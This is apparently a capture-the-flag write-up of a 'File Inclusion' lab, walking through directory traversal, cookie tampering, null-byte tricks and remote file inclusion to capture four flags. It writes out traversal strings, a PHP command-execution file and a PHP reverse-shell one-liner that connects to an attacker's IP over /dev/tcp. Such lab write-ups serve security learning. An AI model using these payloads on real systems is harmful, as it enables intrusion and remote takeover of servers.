File Inclusion
Contents
File Inclusion¶
Task 8 Challenge¶
I’m starting with the challenges, as the rest is already walked through in the tasks. No guidance on this one though
Flag1¶

OK, so the form is broken. If we take a quick look at the source, it’s a get request instead of a POST… smart 
If we can’t use the built in form, theres a few ways around this. The first thing that came to mind was CURL. A quick, easy way to send a request…
A quick google for the format and I ended up with the below command

-X: The Type of Request
-F: A Field=Value string
the last string is my target (no flag)
Those of you playing along at home may wonder why I have 4 “up-one-level” in the path. The simple answer is it was an educated guess. If the are asking for /etc/ then we’re on a linux box. Linux tends to host in /var/www/html, so 3 would be fine. One of the great things about trying to access a directory by ‘returning’ to the root directory, is that even if you overshoot how many levels up you need to go, extras just put you in the exact same spot.
Finally and see what we get. Scrolling to the bottom of the response, we have a code…. huh. It seems we have found our flag

If we had gotten it wrong, we can also see the directory passed back by the webpage. It was the default directory so 3 would have been enough.
The hints recommend Burp or Fixing the page source, whatever method works for you :-)
Flag2¶
So… We are told to refresh then get this page

Huh… refresh then we arent allowed in… Did someone say cookies? Lets take a look at our dev tools 
Now, guest sounds kinda boring dont you think? Lets try shake things up as an admin….

Close the Dev tools and refresh. 
Now, isnt that more interesting :-)
… but wait, theres more. Where’s the input? And we have some exceptions. 
It looks like that cookie might not be for an account name. It looks to be our file location… Let’s try that out…

It looks right, but we arent getting a file. You may notice the first exception has an error “No such file or directory”. The path has a .php added to the end. That’s not what we wanted. As we didnt add it, it likely added by the website. We’ve seen how to escape this before, by adding the null character at the end (%00). Lets give that a go.

Great! We have our flag. A good takeaway from this is “just because the cookie looks like an account name, doesnt mean it is”.
Flag 3¶
Time for challenge 3. Looks like a nice, standard input form.

Running the standard escape gives a few bits of info

We have the standard path, great
It looks like our special character are being dropped, thats annoying
We didnt ask for a .php file, but its looking for one anyway
Ok, so 2 things to work around, lets try the special characters first
….//….//….//etc//flag3 - Nope
../../../”etc/flag3” - Nope
../../../”etc/flag3/.” - Nope
Well thats annoying… lets spin up burp and see whats going on…

its URL encoding our request as a get, and adding another / to the location.
Yea, that didnt help…..
Its a GET, Lets try a basic POST, not worry about the arguements, just to see if the method is allowed…

… What do you know. It is. Finally something ‘interesting’. Now that we know the page accepts POST messages, lets convert our message. About an hour of googling later, I’ve found that burp suite can actually convert for you… thats handy…

Would you look at that; with our post its not dropping the special chars. Nice

Thats one problem out of the way….
Now we can focus on the extention. In our last flag we used the NULL method, lets try that here.

That was easier than the first issue… Nice.
Flag 4 - The challenge¶
OK, we have a form, looks the same as the others, and we can apply any technique. 
This one is harder than it looks though. While there are definately some directory traversal options, the user has been quite locked down.
Directory Traversal is allowed
No rights to anything fun though, /etc/password is ‘empty’, /proc, log poisoning etc have no rights
Null Byte doesnt work
Really, all the Local File Exploits are a no-go here, but who says this is local exploits only? We were introduced to RFIs in task 6.
The first thing we need to do is create a ‘remote’ location. In the real world you would spin up a machine with a public IP, but here we are on the VPN so can host locally. Python has a simple HTTP server which is great for us. More options can be found in the FileTransfer page.
I have made a new folder that I wish to expose. Then launch the server to host all files I have in the folder. With no arguements it is now hosted on 8000.

Now, to create a file to upload. As the form is already adding the .php extension, we can just create a php script to be executed. Save the file in the folder serving the PHP server.
I picked
<?php echo shell_exec(“whoami”);?>
A reverse shell is also an option, but a bit much effort for this challenge
<?php echo system(“0<&196;exec 196<>/dev/tcp/[yourIP]/[yourPort]; sh <&196 >&196 2>&196”); ?>
On the remote site, you can now enter your server address and file to include.

The URL entered in the form
The response of the script
The file being served from my server
Great! It Works! The challenge wasnt to work out the user running the webserver, it was to run the hostname command. Modify the RFI file to run the ‘hostname’ command instead and the flag is yours :-)